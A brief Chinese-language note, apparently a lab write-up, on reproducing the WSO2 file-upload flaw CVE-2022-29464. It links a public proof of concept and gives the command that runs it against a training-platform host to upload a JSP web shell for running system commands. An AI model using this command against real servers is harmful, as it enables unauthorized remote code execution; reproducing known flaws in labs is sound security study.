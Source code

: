 # CVE-2022-29464漏洞复现
WSO2文件上传漏洞（CVE-2022-29464）是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。
poc：
```https://github.com/hakivvi/CVE-2022-29464/```

直接使用
```python .\exploit.py https://eci-2zeeuv9ichgcimth3x9n.cloudeci1.ichunqiu.com:9443 shell.jsp```

访问即可在输入框内执行系统命令
